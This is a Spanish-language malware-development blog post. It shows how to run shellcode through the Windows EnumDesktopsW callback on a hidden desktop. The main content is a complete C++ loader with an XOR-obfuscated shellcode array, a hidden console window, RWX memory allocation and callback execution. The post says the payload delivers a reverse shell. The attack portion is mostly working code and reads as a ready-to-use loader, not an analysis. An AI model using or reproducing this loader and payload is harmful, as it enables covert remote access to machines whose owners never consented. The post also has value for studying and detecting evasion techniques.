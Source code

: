 ```yaml
---
layout: post
title: Inyeccion de shellcodes via EnumDesktopsW()
author: c4rta
date: 2023-07-07
banner:
  image: "./assets/images/home/home-t.png"
  opacity: 0.618
  background: "#000"
  height: "50vh"
  min_height: "50vh"
  heading_style: "font-size: 2.25em; font-weight: bold; "
  subheading_style: "color: gold"
categories: [MalDev]
tags: []
---
```

Te explicare como use la funcion ```EnumDesktopsW()``` para ejecutar una shellcode en un escritorio creado con ```CreateDesktopW()``` 
{:.lead}
## EnumDesktopsW

EnumDesktopsW es una funcion de la WinAPI la cual enumera todos los escritorios del usuario, cabe recalcar que solo enumera los cuales tengan acceso ```DESKTOP_ENUMERATE``` o ```GENERIC_ALL```, lo que hace por detras esta funcion es invocar multiples veces a la funcion callback del parámetro ```lpEnumFunc``` hasta que termine de enumerar todos los escritorios.

```lpEnumFunc``` es uno de los parametros que recibe ```EnumDesktopsW()```, este parametro es un puntero a la callback  ```DESKTOPENUMPROC```, su sintaxis es:

```c++
BOOL CALLBACK EnumDesktopProc(
  _In_ LPTSTR lpszDesktop,
  _In_ LPARAM lParam
);
```

### ¿Como se ejecuta la shellcode?

Basicamente hace esto:

- Se asigna un buffer de memoria mediante una función como VirtualAlloc
- Se copia la shellcode en la memoria recién asignada
- Se usa EnumDesktopsW para enumerar los escritorios y mediante una funcion callback encontrar la dirección de una función que se puede usar para ejecutar la shellcode (La direccion que regresa VirtualAlloc)

El codigo "base" para ejecutar una shellcode de esta forma tomando en cuenta la explicacion anterior, es:

```c++
HANDLE hAlloc = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
memcpy(hAlloc, shellcode, sizeof(shellcode));
EnumDesktopsW(GetProcessWindowStation(),(DESKTOPENUMPROCW) hAlloc, NULL);
```

Pero nos vamos a poner experimentadores y te voy a explicar como usando ese mismo codigo de base lo converti en algo bien genial

### Explicacion

Como en los demas tutoriales, te pondre todo el codigo y te explicare que hacen las funciones y como se ejecuta la shellcode

```c++
#include <Windows.h>
#include <iostream>

unsigned char shellcode[] = {
	"\x92\x26\xed\x8a\x9e\x86\xa2\x6e\x6e\x6e\x2f\x3f\x2f\x3e"
	"\x3c\x3f\x26\x5f\xbc\x0b\x26\xe5\x3c\x0e\x26\xe5\x3c\x76"
	"\x38\x26\xe5\x3c\x4e\x23\x5f\xa7\x26\xe5\x1c\x3e\x26\x61"
	"\xd9\x24\x24\x26\x5f\xae\xc2\x52\x0f\x12\x6c\x42\x4e\x2f"
	"\xaf\xa7\x63\x2f\x6f\xaf\x8c\x83\x3c\x26\xe5\x3c\x4e\xe5"
	"\x2c\x52\x2f\x3f\x26\x6f\xbe\x08\xef\x16\x76\x65\x6c\x61"
	"\xeb\x1c\x6e\x6e\x6e\xe5\xee\xe6\x6e\x6e\x6e\x26\xeb\xae"
	"\x1a\x09\x26\x6f\xbe\xe5\x26\x76\x3e\x2a\xe5\x2e\x4e\x27"
	"\x6f\xbe\x8d\x38\x23\x5f\xa7\x26\x91\xa7\x2f\xe5\x5a\xe6"
	"\x26\x6f\xb8\x26\x5f\xae\xc2\x2f\xaf\xa7\x63\x2f\x6f\xaf"
	"\x56\x8e\x1b\x9f\x22\x6d\x22\x4a\x66\x2b\x57\xbf\x1b\xb6"
	"\x36\x2a\xe5\x2e\x4a\x27\x6f\xbe\x08\x2f\xe5\x62\x26\x2a"
	"\xe5\x2e\x72\x27\x6f\xbe\x2f\xe5\x6a\xe6\x26\x6f\xbe\x2f"
	"\x36\x2f\x36\x30\x37\x34\x2f\x36\x2f\x37\x2f\x34\x26\xed"
	"\x82\x4e\x2f\x3c\x91\x8e\x36\x2f\x37\x34\x26\xe5\x7c\x87"
	"\x25\x91\x91\x91\x33\x27\xd0\x19\x1d\x5c\x31\x5d\x5c\x6e"
	"\x6e\x2f\x38\x27\xe7\x88\x26\xef\x82\xce\x6f\x6e\x6e\x27"
	"\xe7\x8b\x27\xd2\x6c\x6e\x7f\x32\xae\xc6\x6f\x27\x2f\x3a"
	"\x27\xe7\x8a\x22\xe7\x9f\x2f\xd4\x22\x19\x48\x69\x91\xbb"
	"\x22\xe7\x84\x06\x6f\x6f\x6e\x6e\x37\x2f\xd4\x47\xee\x05"
	"\x6e\x91\xbb\x04\x64\x2f\x30\x3e\x3e\x23\x5f\xa7\x23\x5f"
	"\xae\x26\x91\xae\x26\xe7\xac\x26\x91\xae\x26\xe7\xaf\x2f"
	"\xd4\x84\x61\xb1\x8e\x91\xbb\x26\xe7\xa9\x04\x7e\x2f\x36"
	"\x22\xe7\x8c\x26\xe7\x97\x2f\xd4\xf7\xcb\x1a\x0f\x91\xbb"
	"\xeb\xae\x1a\x64\x27\x91\xa0\x1b\x8b\x86\xfd\x6e\x6e\x6e"
	"\x26\xed\x82\x7e\x26\xe7\x8c\x23\x5f\xa7\x04\x6a\x2f\x36"
	"\x26\xe7\x97\x2f\xd4\x6c\xb7\xa6\x31\x91\xbb\xed\x96\x6e"
	"\x10\x3b\x26\xed\xaa\x4e\x30\xe7\x98\x04\x2e\x2f\x37\x06"
	"\x6e\x7e\x6e\x6e\x2f\x36\x26\xe7\x9c\x26\x5f\xa7\x2f\xd4"
	"\x36\xca\x3d\x8b\x91\xbb\x26\xe7\xad\x27\xe7\xa9\x23\x5f"
	"\xa7\x27\xe7\x9e\x26\xe7\xb4\x26\xe7\x97\x2f\xd4\x6c\xb7"
	"\xa6\x31\x91\xbb\xed\x96\x6e\x13\x46\x36\x2f\x39\x37\x06"
	"\x6e\x2e\x6e\x6e\x2f\x36\x04\x6e\x34\x2f\xd4\x65\x41\x61"
	"\x5e\x91\xbb\x39\x37\x2f\xd4\x1b\x00\x23\x0f\x91\xbb\x27"
	"\x91\xa0\x87\x52\x91\x91\x91\x26\x6f\xad\x26\x47\xa8\x26"
	"\xeb\x98\x1b\xda\x2f\x91\x89\x36\x04\x6e\x37\x27\xa9\xac"
	"\x9e\xdb\xcc\x38\x91\xbb"
};

typedef BOOL(WINAPI* ShellcodeFunction)(LPCWSTR, LPARAM);

DWORD WINAPI SwitchDesktopThread(LPVOID lpParameter){
    HDESK hDesktop = static_cast<HDESK>(lpParameter);
    SetThreadDesktop(hDesktop);
    
    return 0;
}

int main(){
	HWND hWin = GetConsoleWindow();
	ShowWindow(hWin, SW_HIDE);
	
    HDESK hDesktop = CreateDesktopW(L"ShellcodeDesk", NULL, NULL, 0, GENERIC_ALL, NULL);
    if (hDesktop != NULL){
        HANDLE hThread = CreateThread(NULL, 0, SwitchDesktopThread, hDesktop, 0, NULL);
        if (hThread == NULL){
            CloseDesktop(hDesktop);
            return 1;
        }else{
        	CloseHandle(hThread);
	
	        for (int i = 0; i < sizeof(shellcode); i++){
	            shellcode[i] = (byte)(shellcode[i] ^ (byte)'\x6e');
	        }
	
	        const size_t shellcodeSize = sizeof(shellcode);
	
	        LPVOID hAlloc = VirtualAlloc(
	            NULL,
	            shellcodeSize,
	            MEM_COMMIT | MEM_RESERVE,
	            PAGE_EXECUTE_READWRITE
	        );
	
	        memcpy(hAlloc, shellcode, shellcodeSize);
	        EnumDesktopsW(GetProcessWindowStation(), (DESKTOPENUMPROCW)hAlloc, NULL);
	        CloseDesktop(hDesktop);
		}

    }
    return 0;
}
```

### Explicacion rapida

Se crea un hilo para ejecutar ```SwitchDesktopThread()```, asi que cuando se ejecute esa funcion cambiara al escritorio mediante ```SetThreadDesktop()```, ese escritorio se llama "ShellcodeDesk" creado con ```CreateDesktop()```, permitiendo que esa accion ocurra en segundo plano en ese hilo que se creo, despues se reserva memoria con ```VirtualAlloc()``` para la shellcode y se inyectara en el contexto del escritorio "ShellcodeDesk" mediante la funcion de callback ```EnumDesktopW()```, permitiento asi que el escritorio actual del usuario no este ocurriendo nada, y todo el proceso de la shellcode se este ejecutando en el escritorio "ShellcodeDesk"


### Explicacion de cada funcion

#### CreateDesktopW()

```c++
HDESK hDesktop = CreateDesktopW(L"ShellcodeDesk", NULL, NULL, 0, GENERIC_ALL, NULL);
```

Creara un nuevo escritorio llamado "ShellcodeDesk" donde se le da acceso "GENERIC_ALL" para tener control total de ese ecritorio, y ojo,
para windows los escritorios solo son objetos que representan un area virtual la cual ejecuta aplicaciones y tiene ventanas, cada escritorio
esta aislado de otro escritorio, es decir, que cada escritorio tiene sus ventanas, aplicaciones.

Como curiosidad, la creacion de escritorios esta limitada por el tamaño del heap del escritorio del sistema, el cual es de 48 MB

Y si ese escritorio se crea, osea es diferente de NULL, regresa un identificador que se guarda en ```hDesktop```, y pasara a la funcion CreateThread()

#### CreateThread()

```c++
HANDLE hThread = CreateThread(NULL, 0, SwitchDesktopThread, hDesktop, 0, NULL);
```

Ahora, cuando se hace un llamado a esta funcion lo que esta pasando es que crea un hilo en el proceso actual, y date cuenta que este hilo su tercer parametro es un puntero del nombre de la funcion que se va a ejecutar en ese hilo, osea ```SwitchDesktopThread```, tambien se le pasa ```hDesktop``` que es la variable que tiene el escritorio creado con ```CreateDesktopW()```

#### SwitchDesktopThread()

```c++
DWORD WINAPI SwitchDesktopThread(LPVOID lpParameter){
    HDESK hDesktop = static_cast<HDESK>(lpParameter);
    SetThreadDesktop(hDesktop);
    
    return 0;
}
```

Ahora con ```SwitchDesktopThread``` lo que esta haciendo es cambiar al escritorio creado con ```CreateDesktopW()``` mediante ```SetThreadDesktop()```, sin embargo este cambio lo hace asignando el escritorio creado al hilo al que pertenece o del cual se esta ejecutando, osea, el escritorio "ShellcodeDesk" que se creo con ```CreateDesktopW()``` se estaria ejecutando en el hilo creado con ```CreateThread```, por eso mismo, en uno de los parametros de ```CreateThread``` se le pasa ```hDesktop```, que es la variable que tiene el nombre de escritorio "ShellcodeDesk".

#### Ejecucion de la shellcode

Y en caso de que todo vaya bien todas las intrucciones que le siguen se estarian ejecutando en ese escritorio ("ShellcodeDesk") lo cual permite que esten aisladas del escritorio actual del usuario, y ya al final con ```EnumDesktopsW()``` se ejecuta las shellcode en el contexto del escritorio creado, osea ShellcodeDesk

#### Resultados

Llega una reverse shell por que eso es lo que hace la shellcode

![](/assets/img/enumDesktopW/1.png)

![](/assets/img/enumDesktopW/2.png)

Eso ha sido todo, gracias por leer ❤
